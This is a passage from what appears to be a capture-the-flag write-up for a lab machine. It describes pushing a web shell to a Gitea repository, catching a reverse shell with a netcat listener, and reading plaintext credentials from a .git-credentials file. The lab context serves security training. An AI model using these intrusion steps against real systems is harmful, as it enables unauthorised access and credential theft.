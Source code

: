 ```bash
Counting objects: 100% (4/4), done.
Delta compression using up to 3 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 2.08 KiB | 2.08 MiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0 (from 0)
remote: . Processing 1 references
remote: Processed 1 references in total
To http://10.129.234.64:3000/ellen.freeman/website.git
   edc1e8c..9066b85  main -> main
```
Now, visiting the website /webshell.aspx on port 80, we get a web shell.

<img width="3800" height="1058" alt="2025-08-24 144017" src="https://github.com/user-attachments/assets/b90dc510-90f9-4ca2-8bdb-7fa0c6bbf70c" />

Let’s get a reverse shell with a Base64-encoded PowerShell script.

After sending it, we get a connection back!

```bash
└─$ rlwrap nc -lvnp 9001                           
listening on [any] 9001 ...
connect to [10.10.14.67] from (UNKNOWN) [10.129.234.64] 51969
whoami
lock\ellen.freeman
PS C:\inetpub\wwwroot> 
```
In the home directory I find credentials for ellen.freeman

```powershell
PS C:\Users\ellen.freeman> cat .git-credentials
http://ellen.freeman:YWFrWJk9uButLeqx@localhost:3000
```
But those are valid only for the Gitea webpage

Enumerating the home directory, I find config.xml:

```bash
    Directory: C:\Users\ellen.freeman\.ssh


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----        12/27/2023  11:11 AM              0 authorized_keys                                                      


    Directory: C:\Users\ellen.freeman\Documents


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----        12/28/2023   5:59 AM           3341 config.xml                                                           


    Directory: C:\Users\ellen.freeman\Favorites


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
```